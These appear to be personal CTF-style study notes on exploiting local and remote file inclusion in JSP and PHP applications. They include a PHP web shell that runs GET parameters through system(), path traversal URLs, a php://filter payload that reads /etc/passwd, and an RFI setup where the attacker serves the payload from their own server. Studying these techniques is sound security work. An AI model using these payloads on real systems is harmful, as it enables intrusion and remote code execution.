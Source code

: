 **LFI with JSP**

JSP cookie:`JSESSIONID`

href links are a get request to a specific resource or server. You can test the sever by just adding a quote: `page='`, this should return a server error, or even a stack trace, which is when the JSP crashes in the backend returning the details of the crash. 

An error could occur where the server tells you that it can't find the file, or whatever the parameter you added: `page=test`
`Error: cant find test.jsp`

The server could have updated something and then forgot to remove the file. This could be combined with path traversal for instance to find the file which could have sensitive dtata included.

JSP is executed, so it could be used to load malicious code an execute it on the server.

File inclusion mechanism is how other code outside the application can be brought in and executed. The file has to be present on the remote system in order to attack it.

1. If you have a file upload.
2. Introduce malicious code.
3. With LFI we can include the code and get RCE.

**LFI with PHP**

Always look for SQLI, if the server returns an error it's probably vulnerable. Inject on the name because the password is usually hashed.

Information on functionality: `config.php`

Include function will read and include the file in PHP context.

```php
<?php include('note'); ?>
```

- Any PHP code inside `note` will be executed.

EAR -> Execution After Redirect
- When the app continues to run even after the user makes an error. This could  expose data.

Let's say that a user added PHP to the note file then the PHP would be executed.

note.md

```php
<?php system('whoami'); ?>
```

So simply put, if the dev has told the app to include any files that an attacker can modify, the attacker will be able to get RCE. The dev could have also added other security features like sanitize the user input.

```php
<?php system($_GET['cmd']); ?>
```

- Usage: `www.example.com/uploads/test.php`
- Example:  `www.example.com/uploads/test&cmd=whoami`
- If file is nested: `www.example.com/uploads/../../../../../test&cmd=whoami`

**RFI with PHP** 

RFI is when the web-server is setup to pull in a resource from an outside address. The attacker can manipulate where the server get's the file and imitate the server giving it a malicious file. 

```php
if (str_starts_with($file, 'http')){
	$files[] = "http://localhost:1338/" . substr($file, 5);;
}
```

In the above example the php would check the name of the file and if it starts with `http` then it will add it to the local host address and pull it into a remote end point on the server. 

File: `test.php`

End point: `http://localhost:1338/test.php`

This is where an attacker would have an apache2 server setup ready to deliver the file. 

Including a file from a network resource. 

I think i understand it a littler better. If the PHP code for some reason is coded in a way that an attacker can manipulate it to go out into the network looking for that resource, like in the examples above, the attacker can setup there own server ready to deliver the file to the target. Now we just navigate to the location of the file and we can use the exploit. 

Settings that allow for this RFI: `allow_url_include = ON`
- The default is off so this might only work for certain CTF machines.

Base64 Encode the Payload:

```php
php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```

Where to add it:

`http://example.com/page=<PAYLOAD>`

Decode b64:
```php
echo 'b64' | base64 -d
```

Check to see if include is in the code:

`http://example.com/page=<PAYLOAD>`
- include.php


